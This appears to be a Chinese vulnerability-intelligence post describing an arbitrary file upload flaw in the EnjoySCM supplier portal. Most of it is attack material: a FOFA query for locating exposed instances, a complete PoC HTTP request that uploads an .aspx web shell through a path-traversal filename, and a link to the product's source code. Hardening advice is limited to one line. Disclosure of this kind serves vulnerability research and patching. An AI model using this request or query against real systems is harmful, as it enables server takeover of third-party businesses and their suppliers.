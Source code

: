 # EnjoySCM UploadFile 任意文件上传漏洞

    \[漏洞情报\] EnjoySCM UploadFile 任意文件上传漏洞
=====================================

漏洞标题

EnjoySCM UploadFile 任意文件上传漏洞



漏洞描述

EnjoySCM是一款适应于零售企业的供应链管理软件，主要为零售企业的供应商提供服务。  

EnjoySCM UploadFile 参数存在 任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

**漏洞细节:**



FOFA：
-----

```null
title="供应商网上服务厅"
```

PoC:
----

```null
POST /File/UploadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21909179191068471382830692394
Content-Length: 531
Connection: close
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="file"; filename="../../../1111.aspx"
Content-Type: image/jpeg

webshell
-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="action"

unloadfile
-----------------------------21909179191068471382830692394
Content-Disposition: form-data; name="filepath"

-----------------------------21909179191068471382830692394
```

![](https://forum.ywhack.com/attachments/month_2302/2302232158d0fd6572e5988574.png)

这套系统漏洞很多，源码可以在这里下载：[https://oss.ywhack.com/%E6%A3%B1%E8%A7%92%E7%A4%BE%E5%8C%BA/coder/SCM40.zip](https://oss.ywhack.com/%E6%A3%B1%E8%A7%92%E7%A4%BE%E5%8C%BA/coder/SCM40.zip)

**加固建议:**

严格限制上传文件类型；  
联系厂商获取加固建议。
